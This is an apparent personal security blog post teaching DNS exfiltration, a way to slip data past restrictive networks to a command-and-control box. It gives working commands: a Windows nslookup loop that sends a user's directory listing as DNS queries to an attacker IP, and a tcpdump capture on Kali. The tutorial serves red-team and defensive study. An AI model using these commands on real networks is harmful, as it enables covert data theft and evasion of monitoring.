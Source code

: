 ```yaml
---
layout: post
title: DNS Exfiltration
---
```


In restrictive environments basic TCP communication to and from your C2 server can arouse suspicion or be blocked. one of the ways operators keep things below the radar is to communicate over accepted protocols like ICMP or DNS. DNS exfiltration might sound intimidating to the uninitiated but it can be dead simple. 

DNS, put broadly, matches names with IP addresses. When we query DNS we are asking "hey, DNS Server, what's the IP address for google.com?" Our DNS server responds with "Sure, let me look that up for you... 172.217.10.142."

![](https://braaaax.github.io/braaaax.github.io/images/nslookup.png)

DNS exfiltration mimics this exchange, which computers on all networks do routinely navigating to websites and shares etc.,to pass data out of the network. Instead we ask "hey, DNS Server, which is actually my C2 server, what is the IP address of DATA-TO-EXFILTRATE?"

In a typical scenario we are querying our "DNS Server" kali box from a Windows machine we can set up a simple interaction like so:

`nslookup DATA Destination-IP`

Then receive our data, DNS runs on port 53 typically, with tcpdump like so:

`tcpdump -lvi tun0 "udp port 53"`
 
`-l` line buffered

`-v` verbose

`-i` interface

`"udp port 53"` port and protocal

So let's see it in action by exfiltrating directory information from a Windows 10 box to our kali box.
We'll loop over the items in our target directory and send a DNS query for each one like so:

on Windows:

`for /f %i in ('dir /b \users\brax') do nslookup %i IP`

![](https://braaaax.github.io/braaaax.github.io/images/dns-exfiltration.png)

on kali:

`tcpdump -lvi tap0 "udp port 53" 2>/dev/null`

![](https://braaaax.github.io/braaaax.github.io/images/kali-dns-server.png)

Ugly right? But we've successfully smuggled our data! We can take a look at the output and clean it up with some simple bashisms. 

![](https://braaaax.github.io/braaaax.github.io/images/dns-exfiltration-cleanedup.png)

still not perfect, but there you have it basic DNS exfiltration.